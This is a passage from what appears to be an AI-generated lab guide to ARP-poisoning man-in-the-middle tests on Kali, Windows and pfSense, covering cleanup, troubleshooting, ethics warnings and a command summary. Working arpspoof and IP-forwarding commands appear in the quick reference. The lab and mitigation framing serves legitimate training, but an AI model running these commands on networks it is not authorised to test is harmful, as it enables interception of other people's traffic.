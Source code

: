 On Kali:

```bash
# Stop arpspoof/bettercap sessions
sudo pkill arpspoof
# or stop bettercap: in its console `arp.spoof off` then exit
# Disable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=0
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

On Windows:

```powershell
# Clear ARP cache
arp -d *
# or reboot Windows server
```

On pfSense:

* Clear ARP entries (Diagnostics > ARP Table) or reboot pfSense if necessary.

---

# Expected outputs & troubleshooting tips

* If poisoning succeeded, Windows `arp -a` will show Kali’s MAC for GATEWAY\_IP.
* If you cannot see traffic: ensure interface promiscuous mode is enabled and that Kali is on the same L2 segment (same switch/VLAN).
* If pfSense uses static ARP or DHCP static mappings, poisoning may fail — that’s the point of the mitigation.

---

# Safe-lab warnings & ethics

* Only perform these actions on equipment/networks you own or explicitly have permission to test. Performing MITM/ARP poisoning on networks without permission is illegal and unethical.
* Use snapshots and isolated lab networks. Revert VMs after tests if needed. Many guides emphasize ethical lab use. ([WebAsha][6])

---

# Quick reference (commands summary)

* Enable IP forward:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

* arpspoof:

```bash
sudo arpspoof -i <iface> -t <WIN_IP> <GW_IP>
sudo arpspoof -i <iface> -t <GW_IP>  <WIN_IP>
```


[1]: https://www.bettercap.org/legacy/?utm_source=chatgpt.com "BetterCAP stable documentation"
[2]: https://docs.netgate.com/pfsense/en/latest/monitoring/status/arp.html?utm_source=chatgpt.com "ARP Table | pfSense Documentation"
[3]: https://docs.netgate.com/pfsense/en/latest/packages/snort/setup.html?utm_source=chatgpt.com "Configuring the Snort Package | pfSense Documentation"
[4]: https://forum.netgate.com/topic/17813/snort-and-arp-spoofing?utm_source=chatgpt.com "Snort and arp spoofing"
[5]: https://forum.netgate.com/topic/182399/enable-static-arp-entries-not-working-correctly?utm_source=chatgpt.com "Enable Static ARP entries not working correctly"
[6]: https://www.webasha.com/blog/understanding-man-in-the-middle-attacks-a-step-by-step-guide-using-bettercap?utm_source=chatgpt.com "Understanding Man-in-the-Middle Attacks: A Step-by-Step Guide ..."